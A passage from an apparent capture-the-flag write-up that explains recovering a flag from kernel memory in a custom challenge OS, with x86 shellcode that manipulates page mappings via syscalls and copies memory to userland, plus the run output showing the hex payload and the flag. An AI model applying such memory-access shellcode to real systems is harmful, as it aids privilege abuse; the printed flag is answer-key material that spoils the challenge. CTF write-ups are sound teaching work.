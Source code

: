 Now, to get the part 1 flag, we just have to find the flag in kernel memory. In the kernel disassembly, navigating to the entry, we can see it eventually jumps to a function which calls a memcpy equivalent. At this point in time, the kernel is running in **real mode**, meaning physical memory can be directly accessed(and is by default). The kernel copies 128 bytes from physical memory address 0x44440000(part 1 flag) to 0x5a6784 in virtual memory. The kernel still won't let us write address 0x5a6784 to stdout, but now it's readable, so we can use rep movsb to copy the bytes to userland memory and then print.

```assembly
mov eax, 13
int 0x80
mov esi, eax
mov dword ptr [esi], 0x0050d003
mov dword ptr [esi+4], 0x004000e7
mov dword ptr [esi+128], 0x020000e7
mov eax, 16
int 0x80
mov ebx, eax
mov eax, 30
int 0x80
mov esi, 0x5a67c0
mov edi, 0x804c020
mov ecx, 0x80
rep movsb
xor ebx, ebx
mov ecx, 0x804c020
mov edx, 0x80
mov eax, 5
int 0x80
```
Executing this shellcode in binexec prints the part 1 flag.
```
/ $ binexec
binexec
Welcome to binexec!
Type some shellcode in hex and I'll run it!

Type the word 'done' and press enter when you are ready
Type 'exit' and press enter to quit the program
Address where I'm gonna run your code: 0804E0A0
B80D000000CD8089C6C70603D05000C74604E7004000C78680000000E7000002B810000000CD8089C3B81E000000CD80BEC0675A00BF20C00408B980000000F3A431DBB920C00408BA80000000B805000000CD80done
B80D000000CD8089C6C70603D05000C74604E7004000C78680000000E7000002B810000000CD8089C3B81E000000CD80BEC0675A00BF20C00408B980000000F3A431DBB920C00408BA80000000B805000000CD80done
Running...
uiuctf{y0uv3_m4pp3d_th3_mem_but_c4n_y0u_3xecute_c0de?}
eax: 00000037
ebx: 00000000
ecx: 0804C020
edx: 00000080
Done! Type more code
Address where I'm gonna run your code: 0804E0A0
```
